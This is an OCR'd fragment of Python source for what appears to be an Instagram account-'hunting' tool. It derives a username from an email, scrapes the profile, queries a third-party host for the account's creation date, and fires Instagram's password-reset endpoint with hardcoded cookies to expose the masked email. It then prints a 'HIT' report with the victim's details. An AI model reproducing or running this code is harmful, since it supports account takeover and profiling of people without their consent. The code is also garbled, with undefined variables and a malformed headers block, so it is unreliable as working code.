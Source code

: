  {Z}BAD Instagram ☞ {F}{n}
 
  {Z}email {C} =  {X} {email}
 ـــــ{U}ـــــــ{Z} ـــــ{U}ـــــــ{Z} ـــــ{U}ـــــــ{Z} ـــــ{U}ـــــــ{Z}''')
 			user = email.split('@')[0]
 			re = requests.get(f'https://www.instagram.com/{user}/?__a=1&__d=dis', headers=head).json()
 			id = re['graphql']['user']['id']
 			nam = re['graphql']['user']['full_name']
 			user = re['graphql']['user']['username']
 			Follos = re['graphql']['user']['edge_followed_by']['count']
 			Follon = re['graphql']['user']['edge_follow']['count']
		
 			date = requests.get(f"https://o7aa.pythonanywhere.com/?id={id}").json()["date"]
 			bio = re['graphql']['user']['biography']
 			isp = re['graphql']['user']['is_private']
 			Post = re['graphql']['user']['edge_owner_to_timeline_media']['count']
 			try:
 				ur = 'https://i.instagram.com/api/v1/accounts/send_password_reset/'

 				hs = {

'Content-Length': '304',
'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
'Host': 'i.instagram.com',
'Connection': 'Keep-Alive',
'User-Agent': 'Instagram 6.12.1 Android (29/10; 480dpi; 1080x2137; HUAWEI/HONOR; JSN-L22; HWJSN-H; kirin710; ar_EG)',
'Cookie': 'mid=Y3cVbAABAAGQQwziuSvILBV17OL4; csrftoken=8Ot6Srxbp23reyVuew7mytfMEGFoVrlC',
'ig_did=EA21DC42-ECDB-4125-BFF6-20D2FD7C0491'
'Cookie2': '$Version=1',
'Accept-Language': 'ar-EG, en-US',

'X-IG-Connection-Type': 'WIFI',

'X-IG-Capabilities': 'AQ==',
'Accept-Encoding': 'gzip',

}

 				df = {

"user_id":id,"device_id":uis,

}

 				sr = requests.post(ur,headers=hs,data=df).json()
	
 				rest = sr["obfuscated_email"]
	
			
	
 				tlg =  (f"""
	 
عمڪ صـفـاوي صادلڪ متاح ⁽⇣̀😙🖤✋،!)''۽
	 
𖤍 𝐇𝐔𝐍𝐓𝐈𝐍𝐆  𝐈𝐍𝐒𝐓𝐀𝐆𝐑𝐀𝐌  𖤍
---------------------------------------------------• ➤
[𝐔𝐒𝐄𝐑𝐍𝐀𝐌] : @{name}
[𝐇𝐈𝐓] » {v}
[𝐍𝐀𝐌𝐄] : {nam}
[𝐔𝐒𝐄𝐑𝐍𝐀𝐌] : @{user}
[𝐄𝐌𝐀𝐈𝐋] : {email}
[𝐈𝐃] : {id}
[𝐅𝐎𝐋𝐋𝐎𝐖𝐒] : {Follos}
[𝐅𝐎𝐋𝐋𝐎𝐖𝐆] : {Follon}
[𝐃𝐀𝐓𝐄] : {dat}
[𝗥𝗘𝗦𝗧] : {rest}
[𝐏𝐎𝐒𝐓𝐒] : {bio}
[𝐏𝐑𝐈𝐕𝐀𝐓𝐄] : {isp}
[𝐋𝐈𝐍𝐊] : https://www.instagram.com/{user}
---------------------------------------------------• ➤